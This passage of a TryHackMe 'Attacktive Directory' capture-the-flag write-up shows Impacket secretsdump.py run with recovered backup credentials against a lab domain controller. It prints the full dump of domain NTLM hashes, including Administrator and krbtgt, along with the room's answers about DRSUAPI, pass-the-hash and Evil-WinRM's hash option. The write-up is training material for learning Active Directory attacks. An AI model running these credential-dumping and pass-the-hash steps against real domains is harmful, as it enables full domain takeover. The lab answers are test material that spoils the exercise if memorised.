 Now that we have ``backup@spookysec.local:backup2517860`` We can use another tool within Impacket called "secretsdump.py". This will allow us to retrieve all of the password hashes that this user account (that is synced with the domain controller) has to offer. Exploiting this, we will effectively have full control over the (AD) Active Directory Domain.

##   Answer the questions below

```shell
┌──(0xskar㉿cocokali)-[~/thm/AttacktiveDirectory]
└─$ /opt/impacket/examples/secretsdump.py spookysec.local/backup:backup2517860@10.10.132.136 -outputfile secretsdump.txt 
Impacket v0.10.1.dev1+20220606.123812.ac35841f - Copyright 2022 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
spookysec.local\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:e3a602bef4ccbcbc0c468b0dd6d50e7d:::
[*] Kerberos keys grabbed
```

**What method allowed us to dump NTDS.DIT?**

- DRSUAPI

**What is the Administrators NTLM hash?**

- 0e0363213e37b94221497260b0bcb4fc

**What method of attack could allow us to authenticate as the user without the password?**

- Pass the Hash

**Using a tool called Evil-WinRM what option will allow us to use a hash?**

- ``evil-winrm -h`` -H, --hash HASH                  NTHash
